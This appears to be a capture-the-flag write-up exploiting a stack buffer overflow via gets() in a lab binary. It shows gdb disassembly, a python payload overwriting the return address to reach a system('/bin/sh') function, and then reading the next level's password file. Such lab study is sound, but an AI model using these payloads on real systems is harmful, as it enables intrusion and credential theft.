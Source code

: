 As seen in the disassembled code, the program uses the gets() function to take user input :

```
(gdb) disass main
Dump of assembler code for function main:
   0x08048480 <+0>:    push   %ebp
   0x08048481 <+1>:    mov    %esp,%ebp
   0x08048483 <+3>:    and    $0xfffffff0,%esp
   0x08048486 <+6>:    sub    $0x50,%esp
   0x08048489 <+9>:    lea    0x10(%esp),%eax
   0x0804848d <+13>:   mov    %eax,(%esp)
   0x08048490 <+16>:   call   0x8048340 <gets@plt>
   0x08048495 <+21>:   leave  
   0x08048496 <+22>:   ret    
End of assembler dump.
```

By examining the man page for the gets() function, it can see that this function is deprecated and poses some significant security vulnerability:
> Never use gets(). Because it is impossible to tell without knowing the data in advance how many characters gets() will read, and because gets() will continue to store characters past the end of the buffer, it is extremely dangerous to use.

We try to do a buffer overflow by inputting a string exceeding 100 characters:

```
$ ./level1
letest42letest42letest42letest42letest42letest42letest42letest42letest42letest42letest42letest42letest42letest42letest42letest42letest42letest42letest42letest42letest42letest42
Segmentation fault (core dumped)
```

This confirmed the presence of a buffer overflow. Next, we determined the buffer size using gdb:
```
$ gdb ./level1
(gdb) disass main
```
We found that the buffer size is 0x50, or 80 bytes.

We then examined all functions in the program with `info functions` and identified a `run` function that calls the `system` function:
```
(gdb) info functions
0x080482f8  _init
[...]
0x08048444  run
0x08048480  main
[...]

(gdb) disass run
0x08048444 <+0>:	push   %ebp
0x08048445 <+1>:	mov    %esp,%ebp
[...]
0x08048472 <+46>:	movl   $0x8048584,(%esp)
0x08048479 <+53>:	call   0x8048360 <system@plt>
[...]

(gdb) x/s 0x8048584
0x8048584:	 "/bin/sh"
```
To exploit the program, we generated a string of 76 characters followed by the address of the `run` function (0x08048444) in little-endian format (\x44\x84\x04\x08):
```
$ python -c "print('-' * 76 + '\x44\x84\x04\x08')" > /tmp/test
$ cat /tmp/test - | ./level1
$ cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```